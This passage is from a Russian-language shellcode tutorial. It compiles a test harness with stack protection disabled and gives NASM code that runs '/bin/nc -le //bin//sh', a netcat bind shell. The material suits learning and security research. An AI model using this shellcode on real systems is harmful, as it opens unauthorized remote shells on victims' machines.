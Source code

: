Компилируем. **NB!** Если у тебя x86_64 система, то может понадобиться установка `g++-multilib`:

```
# apt-get install g++-multilib

$ gcc -m32 -fno-stack-protector -z execstack checker.c -o checker
```

Запускаем:

```
$ ./checker
```

![[Pasted image 20230618074411.png]]

Хех, видим, что наш shell-код работает: его размер — 58 байт, `netcat` открывает шелл на порте 12345.

## Оптимизируем размер

58 байт — это довольно неплохо, но если посмотреть в shellcode-раздел exploit-db.com, то можно найти и поменьше, например [вот этот](https://www.exploit-db.com/exploits/39901/) размером в 56 байт.

## Можно ли сделать наш код существенно компактнее?

Можно. Убрав блок, описывающий номер порта. При таком раскладе `netcat` все равно будет исправно слушать сеть и даст нам шелл. Правда, номер порта нам теперь придется найти с помощью `nmap`. Наш новый код будет выглядеть следующим образом:

```nasm
section .text
global _start
 _start:

  xor edx, edx
  push edx
  push 0x68732f2f ; -le//bin//sh
  push 0x6e69622f
  push 0x2f656c2d
  mov edi, esp

  push edx
  push 0x636e2f2f ; /bin//nc
  push 0x6e69622f
  mov ebx, esp

  push edx
  push edi
  push ebx
  mov ecx, esp
  xor eax, eax
  mov al,11
  int 0x80
```
